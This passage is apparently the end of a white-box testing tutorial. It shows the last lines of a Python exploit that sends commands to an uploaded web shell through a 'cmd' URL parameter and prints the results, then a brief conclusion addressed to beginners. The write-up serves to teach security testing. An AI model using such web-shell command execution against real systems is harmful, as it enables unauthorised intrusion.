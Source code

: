 ```python
            url = shell_url + "?cmd={}".format(cmd)
        print(r.get(url, headers=head).text.replace(";", ""))
exploit()
```

## Conclusion

This was a nice simple code analysis tutorial helpful to those who are just starting white box testing, like me :)